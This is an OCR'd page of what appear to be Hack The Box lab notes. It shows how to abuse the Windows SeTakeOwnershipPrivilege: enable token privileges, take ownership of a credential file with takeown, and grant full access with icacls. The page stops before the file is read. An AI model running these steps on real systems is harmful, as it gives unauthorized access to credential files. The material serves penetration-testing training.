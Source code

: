 # SeTakeOwnershipPrivilege
## whoami /priv confirms that SeTakeOwnershipPrivilege is listed.
With this privilege, a user could take ownership of any file or object and make changes that could involve access to sensitive data, Remote Code Execution (RCE) or Denial-of-Service (DOS)
### Enabling SeTakeOwnershipPrivilege
```
PS C:\htb> Import-Module .\Enable-Privilege.ps1
```
```
PS C:\htb> .\EnableAllTokenPrivs.ps1
```
```
PS C:\htb> whoami /priv
```
All privileges are enabled
1. Taking Ownership of the File, cred.txt in this example
```
PS C:\htb> takeown /f 'C:\Department Shares\Private\IT\cred.txt’
```
2. Confirming Ownership Changed
```
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
```
3. Modifying the File ACL
```
PS C:\htb> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```
4. Reading cred.txt file
